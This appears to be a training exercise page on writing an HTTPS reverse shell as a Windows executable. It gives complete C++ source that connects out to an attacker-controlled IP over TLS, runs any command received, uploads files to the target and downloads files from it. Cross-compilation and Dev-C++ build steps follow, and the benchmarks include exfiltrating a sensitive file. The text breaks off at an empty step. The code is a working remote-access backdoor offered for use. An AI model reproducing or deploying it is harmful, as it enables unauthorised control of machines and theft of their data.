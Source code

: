 # Write A HTTPS Reverse-Shell As A Windows Executable
An HTTPS reverse shell is a tool hackers use to remotely control a target computer by establishing a secure connection via a crafted HTTPS URL. Once accessed, it opens a reverse shell on the hacker’s system, allowing remote access to view or modify the target’s files more securely than a plaintext HTTP connection


## References
- [Reverse Connection](https://en.wikipedia.org/wiki/Reverse_connection) by Wikipedia


## Tasks
- Develop a program that constructs a HTTPS reverse shell in the form of a Windows executable. The program must achieve the following
  - Facilitate reverse connections over HTTPS to ensure secure communication
  - Provide functionality to execute remote commands on the target machine
  - Implement the capability to upload files to the target machine
  - Incorporate the ability to download files from the target machine


## Benchmarks
- Execute the Windows executable on the attacker's machine
- Illustrate the process of establishing a reverse shell connection to the attacker's machine through HTTPS
- Demonstrate the execution of a command on the target machine to retrieve the current user's group
- Showcase the successful upload of a Sysinternals Suite executable (e.g., "PsExec.exe") from the attacker's machine to the target machine
- Validate the successful transfer of the Sysinternals Suite executable on the target machine by executing it
- Display the successful download of a sensitive file (e.g., "confidential.txt") from the target machine to the attacker's system



## Solutions With Scripts
1. Save the following C++ file and compile it as `httpsreverseshell.exe`
   ```
    #include <iostream>
    #include <winsock2.h>
    #include <ws2tcpip.h>
    #include <openssl/ssl.h>
    #include <openssl/err.h>
    #include <fstream>
    
    #pragma comment(lib, "ws2_32.lib")
    #pragma comment(lib, "libssl.lib")
    #pragma comment(lib, "libcrypto.lib")
    
    #define SERVER_HOST "192.168.1.100" // Replace with your attacker's IP
    #define SERVER_PORT 443
    
    void initialize_winsock() {
        WSADATA wsa;
        if (WSAStartup(MAKEWORD(2, 2), &wsa) != 0) {
            std::cerr << "WSAStartup failed. Error: " << WSAGetLastError() << std::endl;
            exit(EXIT_FAILURE);
        }
    }
    
    SSL_CTX* initialize_openssl() {
        SSL_library_init();
        SSL_load_error_strings();
        OpenSSL_add_all_algorithms();
        return SSL_CTX_new(TLS_client_method());
    }
    
    SSL* establish_https_connection(SSL_CTX* ctx) {
        struct sockaddr_in server_addr;
        SOCKET sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
        if (sock == INVALID_SOCKET) {
            std::cerr << "Socket creation failed. Error: " << WSAGetLastError() << std::endl;
            exit(EXIT_FAILURE);
        }
    
        server_addr.sin_family = AF_INET;
        server_addr.sin_port = htons(SERVER_PORT);
        inet_pton(AF_INET, SERVER_HOST, &server_addr.sin_addr);
    
        if (connect(sock, (struct sockaddr*)&server_addr, sizeof(server_addr)) < 0) {
            std::cerr << "Connection failed. Error: " << WSAGetLastError() << std::endl;
            exit(EXIT_FAILURE);
        }
    
        SSL* ssl = SSL_new(ctx);
        SSL_set_fd(ssl, sock);
        if (SSL_connect(ssl) <= 0) {
            std::cerr << "SSL connection failed." << std::endl;
            ERR_print_errors_fp(stderr);
            exit(EXIT_FAILURE);
        }
    
        return ssl;
    }
    
    std::string execute_command(const std::string& cmd) {
        char buffer[128];
        std::string result = "";
        FILE* pipe = _popen(cmd.c_str(), "r");
        if (!pipe) return "Error executing command.";
        while (fgets(buffer, sizeof(buffer), pipe) != nullptr) {
            result += buffer;
        }
        _pclose(pipe);
        return result;
    }
    
    void upload_file(SSL* ssl, const std::string& filepath) {
        std::ofstream out(filepath, std::ios::binary);
        char buffer[1024];
        int bytes_read;
        while ((bytes_read = SSL_read(ssl, buffer, sizeof(buffer))) > 0) {
            out.write(buffer, bytes_read);
        }
        out.close();
    }
    
    void download_file(SSL* ssl, const std::string& filepath) {
        std::ifstream in(filepath, std::ios::binary);
        char buffer[1024];
        while (in.read(buffer, sizeof(buffer))) {
            SSL_write(ssl, buffer, in.gcount());
        }
        in.close();
    }
    
    int main() {
        initialize_winsock();
        SSL_CTX* ctx = initialize_openssl();
        SSL* ssl = establish_https_connection(ctx);
    
        while (true) {
            char command[1024];
            int bytes = SSL_read(ssl, command, sizeof(command) - 1);
            if (bytes <= 0) break;
            command[bytes] = '\0';
    
            if (strncmp(command, "upload", 6) == 0) {
                upload_file(ssl, command + 7); // upload <filepath>
            } else if (strncmp(command, "download", 8) == 0) {
                download_file(ssl, command + 9); // download <filepath>
            } else {
                std::string result = execute_command(command);
                SSL_write(ssl, result.c_str(), result.length());
            }
        }
    
        SSL_shutdown(ssl);
        SSL_free(ssl);
        SSL_CTX_free(ctx);
        WSACleanup();
        return 0;
    }
   ```
2. To cross-compile on Kali Linux as the attacker machine, use
   ```
   x86_64-w64-mingw32-g++ httpsreverseshell.cpp -o httpsreverseshell.exe -lws2_32 -lssl -lcrypto
   ```
   To compile using MinGW or another suitable Windows-compatible compiler, use
   ```
   g++ httpsreverseshell.cpp -o httpsreverseshell.exe -lws2_32 -lssl -lcrypto
   ```
   To compile in Dev-C++, download the precompiled OpenSSL binaries for Windows. Ensure they match the architecture (32-bit or 64-bit) of your system.
   Add the OpenSSL include and library directories to Dev-C++:
   - Go to Tools → Compiler Options
   - Under Directories → C Includes, add the path to the OpenSSL include folder
   - Under Directories → Libraries, add the path to the OpenSSL lib folder
   Add Required Libraries:
   - Go to Project → Project Options → Parameters → Linker
   - Add the following linker flags:
     ```
     -lws2_32 -lssl -lcrypto
     ```
3. 
